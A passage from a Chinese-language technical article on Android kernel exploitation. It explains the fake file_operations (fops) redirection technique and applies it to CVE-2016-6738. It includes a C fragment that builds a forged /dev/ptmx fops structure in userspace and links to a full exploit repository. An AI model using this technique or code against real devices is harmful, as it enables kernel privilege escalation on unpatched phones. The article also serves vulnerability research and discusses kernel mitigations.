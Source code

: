	* Add stack-frame walking to usercopy implementations (Done: x86. In progress: arm64. Needed on arm, others?)
	* restrict autoloading of kernel modules (like GRKERNSEC_MODHARDEN) (In progress: Timgad LSM)

有兴趣的同学可以进入该项目看看代码，提前了解一下缓解措施，

比如 `KASLR for ARM`, 将大部分内核对象的地址做了随机化处理，这是以后 android kernel exploit 必须面对的; 

另外比如 `__ro_after_init` ，内核启动完成初始化之后大部分 **fops** 全局变量都变成 readonly 的，这造成了本文这种利用方法失效, 所幸的是，目前 android kernel 还是可以用的。

#### 本文使用的利用方法 [[^]](#top)
<span id="this-kernel-exp"></span> 

对照 [Kernel_Self_Protection_Project](https://kernsec.org/wiki/index.php/Kernel_Self_Protection_Project/Work) 的利用分类，本文的利用思路属于 [Userspace data usage](https://kernsec.org/wiki/index.php/Exploit_Methods/Userspace_data_usage)

>Sometimes an attacker won't be able to control the instruction pointer directly, but they will be able to redirect the dereference a structure or other pointer. In these cases, it is easiest to aim at malicious structures that have been built in userspace to perform the exploitation.

具体来说，我们在应用层构造一个伪 **file_operations** 结构体(其他如 **tty_operations** 也可以)，然后通过漏洞改写内核某一个驱动的 **fops** 指针，将其改指向我们在应用层伪造的结构体，之后，我们搜索特定的 rop 并随时替换这个伪 **file_operations** 结构体里的函数实现，就可以做到在内核多次执行任意代码（取决于rop) ，这种方法的好处包括：

1. 内核有很多驱动，所以 fops 非常多，地址上也比较分散，对一些溢出类漏洞来说，选择比较多
2. 内核的 fops 一般都存放在 writable 的 data 区，至少目前android 主流 kernel 依然如此
3. 将内核的 fops 指向用户空间后，用户空间可以随意改写其内部函数的实现
4. 只需要一次内核写

下面结合漏洞说明怎么利用

### CVE-2016-6738 漏洞利用 [[^]](#top)

<span id="CVE-2016-6738-exp"></span> 

CVE-2016-6738 是一个任意地址写任意值的漏洞，利用代码已经提交在 [EXP-CVE-2016-6738](https://github.com/453483289/android_vuln_poc-exp/tree/master/EXP-CVE-2016-6738)

我们选择重定向 /dev/ptmx 设备的 file_operations, 先在用户态构造一个伪结构，如下

```c

        map = mmap(0x1000000, (size_t)0x10000, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE, -1, (off_t)0);
        if(map == MAP_FAILED) {
                printf("[-] Failed to mmap landing (%d-%s)\n", errno, strerror(errno));
                ret = -1;
                goto out;
        }
        //printf("[+] landing mmap'ed @ %p\n", map);
        memset(map, 0x0, 0x10000);
        fake_ptmx_fops = map;
        printf("[+] fake_ptmx_fops = 0x%lx\n",fake_ptmx_fops);
        *(unsigned long*)(fake_ptmx_fops + 1 * 8) = PTMX_LLSEEK;
        *(unsigned long*)(fake_ptmx_fops + 2 * 8) = PTMX_READ;
        *(unsigned long*)(fake_ptmx_fops + 3 * 8) = PTMX_WRITE;
        *(unsigned long*)(fake_ptmx_fops + 8 * 8) = PTMX_POLL;
        *(unsigned long*)(fake_ptmx_fops + 9 * 8) = PTMX_IOCTL;
        *(unsigned long*)(fake_ptmx_fops + 10 * 8) = COMPAT_PTMX_IOCTL;
        *(unsigned long*)(fake_ptmx_fops + 12 * 8) = PTMX_OPEN;
        *(unsigned long*)(fake_ptmx_fops + 14 * 8) = PTMX_RELEASE;
        *(unsigned long*)(fake_ptmx_fops + 17 * 8) = PTMX_FASYNC;

```
